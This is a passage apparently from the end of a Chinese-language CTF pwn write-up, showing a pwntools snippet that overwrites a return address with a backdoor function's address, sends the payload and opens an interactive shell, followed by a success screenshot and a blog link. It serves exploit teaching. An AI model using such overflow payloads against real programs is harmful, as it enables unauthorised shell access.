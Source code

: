 ```python
ret_addr = p64(BACKDOOR_ADDR) # 使用 p64 打包地址（小端序）

payload = padding + ret_addr

log.success(f"Payload ready. Size: {len(payload)} bytes")

# 2. 发送并获得 Shell
p.sendline(payload)
p.interactive()
```

执行，成功：

![](https://cdn.nlark.com/yuque/0/2025/png/61818612/1760712665182-ff2825a1-f6cc-4b2a-bfa6-ae4876b2a18b.png)

---

<https://khyan.top>

![](https://cdn.nlark.com/yuque/0/2025/png/61818612/1760710415689-1eb3208a-14e9-4e91-a0dc-d698fc962dd4.png)

